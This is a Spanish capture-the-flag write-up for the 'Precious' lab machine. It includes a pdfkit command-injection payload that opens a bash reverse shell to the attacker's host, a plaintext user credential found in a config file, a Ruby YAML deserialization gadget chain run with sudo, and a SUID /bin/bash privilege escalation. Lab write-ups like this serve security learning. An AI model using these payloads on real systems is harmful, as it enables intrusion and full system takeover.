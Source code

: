 # PreciousWriteup

Comenzamos haciendo un escaneo en nmap

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110171820.png)

Vemos abierto dos puertos el 22 y el 80

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.189
~~~

Entramos a la página web y vemos que no carga agregamos a /etc/hosts la ip seguida de precious.htb

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172201.png)

Vemos esta página, para poder copiar otras páginas en PDFs, creamos un server con python -m http.server 80

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172259.png)

Ponemos nuestro link para que genere el pdf

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172409.png)

Vemos los metadatos y dice generated by pdfkit v0.8.6

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172531.png)

Buscamos vulnerabilidades para pdfkit

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172612.png)

Vemos que permite la ejecucion remota de comandos

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110172642.png)

Lo calamos

~~~
http://example.com/?name=#{'%20`sleep 5`'}
~~~

Vemos que si tarda 5 segs en conectar

Calamos generar un reverse shell

~~~
http://10.10.14.136/?name=#{'%20`bash -c "/bin/bash -i >& /dev/tcp/10.10.14.136/9123 0>&1"`'}
~~~

Damos el -c para que se ejecute bien 

~~~
-c        If the -c option is present, then commands are read from the first non-option argument command_string.  If there are arguments after the command_string, the first argument is assigned to $0 and any remaining argu‐
                 ments are assigned to the positional parameters.  The assignment to $0 sets the name of the shell, which is used in warning and error messages.
       -i        If the -i option is present, the shell is interactive.
~~~

Estamos en /var/www/pdfapp, vamos a home

Damos un ls y no hay nada, damos ls -laRh, para ver carpetas y subcarpetas ocultas

Vemos varias

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110174817.png)

Entramos a ./.bundle

Vemos config y hay como una clave de ssh

~~~
henry:Q3c1AqGHtoI0aXAYFH
~~~

Entramos y ganamos la primera flag

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110175411.png)

Ahora damos sudo -l para ver variables de entorno

![imagen]()

~~~
-l, --list  If no command is specified, list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.  A longer list format is used if this option is specified
                 multiple times and the security policy supports a verbose output format.

                 If a command is specified and is permitted by the security policy, the fully-qualified path to the command is displayed along with any command line arguments.  If a command is specified but not allowed by the pol‐
                 icy, sudo will exit with a status value of 1
~~~

Nos vamos a opt

A ver el update_dependencies.rb

Vemos que abre un archivo dependencies.yml y no especifica el camino

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110175411.png)

Y vemos que tiene permisos de root

Enocntramos que se puede deserializar, con ruby 


~~~
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
~~~

En git set podemos ejecutar el comando

Ponemos chmod +s /bin/bash

Y hacemos bash -p

![imagen](https://github.com/Hamibubu/Writeups/blob/main/PreciousWriteup/Pasted%20image%2020230110175411.png)

Y obtenemos la flag



